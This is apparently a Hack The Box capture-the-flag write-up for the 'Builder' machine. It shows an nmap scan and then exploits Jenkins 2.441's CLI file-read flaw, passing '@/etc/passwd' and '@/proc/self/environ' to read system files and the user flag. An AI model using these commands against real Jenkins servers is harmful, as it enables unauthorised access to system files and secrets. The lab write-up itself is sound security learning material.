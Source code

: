 ```yaml
---
title: "Builder from HTB"
categories: [Hack The Box]
tags: [Hack The Box]
---
```

# Builder from HTB
`nmap`gave this:
```
PORT      STATE    SERVICE    VERSION
22/tcp    open     ssh        OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
1566/tcp  filtered corelvideo
8080/tcp  open     http       Jetty 10.0.18
|_http-title: Dashboard [Jenkins]
| http-robots.txt: 1 disallowed entry 
|_/
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-server-header: Jetty(10.0.18)
```
Accessing the `8080`port we find that site runs on `jenkins 2.441`which is exploitable.
```
wget 10.10.11.10:8080/jnlpJars/jenkins-cli.jar
java -jar jenkins-cli-2.441.jar -noCertificateCheck -s 'http://10.10.11.10:8080' help "@/etc/passwd"
--------
------------
 COMMAND : Name of the command (default: root:x:0:0:root:/root:/bin/bash)
------------\
java -jar jenkins-cli-2.441.jar -noCertificateCheck -s 'http://10.10.11.10:8080' help "@/proc/self/environ"
-----------------
HOSTNAME=0f52c222a4ccJENKINS_UC_EXPERIMENTAL=https<snip>JENKINS_HOME=/var/jenkins_home<snip>
```
We find that home directory is in `/var/jenkins_home`we can read `user.txt`in there
***
User Flag is: 392c37d12e3c7774b81d37323c1b66bd.
***
